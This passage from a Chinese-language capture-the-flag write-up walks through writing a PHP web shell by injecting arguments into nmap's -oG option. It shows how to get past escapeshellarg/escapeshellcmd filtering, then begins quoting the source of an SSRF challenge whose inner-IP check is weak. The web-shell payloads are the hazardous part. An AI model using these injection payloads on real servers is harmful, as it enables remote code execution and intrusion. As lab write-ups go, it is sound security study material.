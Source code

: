 可以通过 `-oG` 输出到文件中，构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.php
```

回显 `Hacker...` ，说明存在一定的过滤，试试改成 `phtml` 。

构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.phtml
```

回显 `Host maybe down` ，说明传入成功，但是并不能访问 `shell.phtml` ，通过查看源代码才发现还需要进行单引号的绕过（存在 `escapeshellarg()` 和 `escapeshellcmd()` ），因此需要修改 Payload 如下

```
host='<?=eval($_POST[1]);?> -oG shell.phtml '
```

结尾的空格是为了防止 `escapeshellcmd()` 函数使得文件名变成 `shell.phtml\\` 。

通过蚁剑一把梭就可以得到 flag 了。

### \[玄武组]SSRF Me

#### 题目源码

```php
// index.php
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}

function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
```